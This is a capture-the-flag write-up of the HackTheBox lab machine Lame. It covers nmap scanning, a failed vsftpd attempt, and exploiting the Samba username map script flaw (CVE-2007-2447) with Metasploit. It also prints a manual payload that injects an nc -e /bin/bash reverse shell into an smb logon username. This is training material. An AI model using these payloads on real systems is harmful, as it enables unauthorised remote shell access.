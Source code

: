 ## HackTheBox Write-Up — Lame

*This is the write-up of the Machine [LAME](https://www.hackthebox.eu/home/machines/profile/1) from [HackTheBox](https://www.hackthebox.eu/).*

![Machine Map](../img/Lame Writeup/1_pMRHRDkFCsYTIPADwNwLnA.png)

## DIGEST

Lame is a beginner-friendly machine based on a Linux platform. It was the first machine from HTB.Use the samba username map script vulnerability to gain user and root.
>  Machine Author: [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>  Machine Type: Linux
>  Machine Level: 2.7/10

## Know-How

* Nmap

* Searchsploit

## Absorb Skills

* [CVE-2007–2447](http://cvedetails.com/cve/cve-2007-2447)

* Samba “username map script” Command Execution

## Scanning the Network

    $nmap -sC -sV 10.10.10.3

![man nmap](../img/Lame Writeup/1_A52u5-G1cCR5CeXNWLyARA.png)

![nmap result](../img/Lame Writeup/1_6cAsYxuNw4Woo88r_I4uEw.png)

## Vulnerable Ftp

    searchsploit vsftpd 2.3.4

![searchsploit ftp](../img/Lame Writeup/1_uIaUUtd1jwNa1cr4v0PA8g.png)

I tried to execute the exploit but it failed every time :(

## Vulnerable Samba

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default “username map script” configuration option. By specifying a username containing shell mmeta characters attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames pbeforeauthentication!.

    $searchsploit Samba 3.0.20

![searchsploit samba](../img/Lame Writeup/1_PavFhil2YjeOKBE81V2kpQ.png)

## Exploiting the Server

    msf5 >use exploit/multi/samba/usermap_script
    
    set RHOSTS 10.10.10.3
    exploit

![shell](../img/Lame Writeup/1_qQ8lZsgoeczPhKpJYR-6pA.png)

## Manual Exploit Without Metasploit

    logon “./=`nohup nc -e /bin/bash 10.10.14.7 4444`"

* logon:- it is used to login into smb

* nohup:-run a command immune to hangups, with output to a non-tty

![](../img/Lame Writeup/1_RTflbk-3QZl_wHo0owII3w.png)

## OWN USER

User makis have the user.txt

![Own user](../img/Lame Writeup/1_ClhOcAl5E1OKHemcGmzkow.png)

## OWN ROOT

![Own root](../img/Lame Writeup/1_r0tCr6g6sXSAYt5iQSCrZw.png)

![Trophy](../img/Lame Writeup/1_bRNHJW1VWcDBbBFBj5A_pA.png)

